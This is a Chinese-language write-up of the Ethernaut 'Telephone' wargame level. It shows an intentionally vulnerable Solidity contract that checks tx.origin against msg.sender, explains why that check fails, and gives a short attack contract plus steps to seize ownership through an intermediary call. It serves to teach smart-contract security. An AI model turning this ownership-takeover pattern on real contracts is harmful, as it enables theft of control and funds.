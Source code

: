 ```yaml
---
layout: post
title: Telephone
tags: [ethernaut]
---
```


# Telephone
tx.origin和msg.sender的不同
```solidity
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### 代码分析
1. 当调用changeOwner(address)方法时，tx.origin与msg.sender不一致时即可获取到owner权限
2. tx.origin代表发出交易的原始方（交易的最初发起方）
3. msg.sender可以理解为发出当前call的发送方，当使用合约的call时，msg.sender会被替换为合约地址。

### 攻击合约
[官方答案](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/attacks/TelephoneAttack.sol)
```solidity
pragma solidity ^0.4.18;

contract TelephoneAttack {

  function attack(address _victim, address _owner) public {
    _victim.call(bytes4(keccak256("changeOwner(address)")), _owner);
  }
}
```
_victim为游戏合约instance的地址  
_owner为需要获取owner权限的地址

### 攻击方法
1. 部署攻击合约
2. 调用攻击合约方法attack(address, address)